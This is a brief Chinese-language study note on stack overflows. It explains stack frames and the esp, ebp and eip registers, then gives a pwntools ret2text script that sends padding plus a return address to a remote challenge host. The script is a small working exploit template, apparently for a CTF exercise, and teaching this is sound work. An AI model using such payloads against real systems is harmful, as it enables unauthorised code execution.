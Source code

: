 ## 栈溢出
函数调用的栈帧
![image](https://pic3.zhimg.com/80/v2-8d5649c36458080223084d77abbd554a_1440w.webp)

函数状态主要涉及三个寄存器－－esp，ebp，eip。esp 用来存储函数调用栈的栈顶地址，在压栈和退栈时发生变化。ebp 用来存储当前函数状态的基地址，在函数运行时不变，可以用来索引确定函数参数或局部变量的位置。eip 用来存储即将执行的程序指令的地址，cpu 依照 eip 的存储内容读取指令并执行，eip 随之指向相邻的下一条指令，如此反复，程序就得以连续执行指令

调用函数时栈的变化:
	被调用函数（callee）的参数按照逆序依次压入栈内 (arg n-arg 1)
	将调用函数（caller）进行调用之后的下一条指令地址作为返回地址压入栈内 (return addr)
	将调用函数的基地址（ebp）压入栈内，并将当前栈顶地址传到 ebp 寄存器内 (ebp)
	将被调用函数的局部变量压入栈内 (local var)

*python*
```python
from pwn import *
#local
#sh = process("./ret2text")
#remote
sh=remote('3.110.66.92',32075)
win = 0x4017E53
sh.sendline(b'A'*40 + p64(win))
sh.recvline()         
```





